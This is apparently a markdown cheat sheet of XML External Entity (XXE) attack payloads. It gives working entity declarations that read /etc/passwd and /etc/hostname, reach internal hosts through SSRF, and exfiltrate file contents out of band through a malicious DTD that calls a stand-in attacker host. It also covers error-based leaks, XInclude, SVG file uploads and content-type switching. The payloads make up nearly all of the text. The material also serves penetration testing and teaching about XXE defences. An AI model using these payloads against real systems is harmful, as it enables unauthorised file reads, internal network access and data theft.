 # XXE Payloads

## Exploiting XXE to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Detecting blind XXE using out-of-band (OAST) techniques

### Out-of-band interaction
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Out-of-band interaction with parameter entity
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Exploiting blind XXE to retrieve data via error messages
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Xinclude attack
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE attack via file upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as ``application/x-www-form-urlencoded``. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.